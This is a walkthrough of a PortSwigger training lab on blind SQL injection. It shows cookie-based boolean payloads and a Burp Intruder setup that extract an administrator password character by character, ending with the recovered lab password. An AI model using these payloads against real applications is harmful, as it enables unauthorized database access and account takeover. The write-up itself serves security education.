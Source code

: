 [Source](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)
## Task
This lab contains a Blind SQL injection vulnerability. The application uses tracking cookies for analytics and executes a SQL query that uses the value of the passed cookie.

The results of the SQL query are not returned, and no errors are displayed. However, the application includes a "Welcome back" message on the page if the query returns at least one row.

The database contains a `users` table with `username` and `password` columns. You need to exploit the Blind SQL injection vulnerability to find out the password of the admin user.

Log in as the admin user to solve the task.
## Solution
Go to the site

![image](images/20241202200651.png)

Intercept the main page request in `Burp Suite` and send it to `Repeater`

![image](images/20241202201417.png)

Check if there is a `users` table
```SQL
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

![image](images/20241202202115.png)

Check if there is an `administrator` user
```SQL
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

![image](images/20241202202217.png)

Find out how many characters are in password for `administrator`. Gradually increase from 1 until `Welcome back!` is displayed. I stopped at 20 characters. So the password length is 20 characters
```SQL
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

![image](images/20241202202617.png)

Let's check the first letter of the administrator password. Is it less than `m` or not.
```SQL
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username=+'administrator'),1,1)<'m
```

![image](images/20241202201531.png)

The first letter is less than `m`. Let's check if the first letter is greater than `i`
```SQL
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username=+'administrator'),1,1)>'i
```

![image](images/20241202201636.png)

This is how we found the first letter `j`
```SQL
'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='j
```

![image](images/20241202201721.png)

Since it will take a long time to sort through 20 characters, we will use `Intruder`. Send this query to it

![image](images/20241202202926.png)

Change the query
```SQL
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

![image](images/20241202203004.png)

Add payload markers to the final character (`a`), so it looks like this
```SQL
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```
Go to the `Payloads` tab and set `Payload type` to `Simple list` and in `Payload settings [Simple list]` enter all the letters of the English alphabet and numbers

![image](images/20241202204030.png)

In the `Intruder` settings, search for `Grep - Match` and add the line `Welcome back` to it

![image](images/20241202204203.png)

Launch the attack.

![image](images/20241202210443.png)
We see that the first value of the password is `9`. To search for the following values, change the query
```SQL
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```
The final password is `9sy0zpypsrw7x8pqzw02`. Log in as administrator

![image](images/20241202210959.png)


![image](images/20241202211006.png)
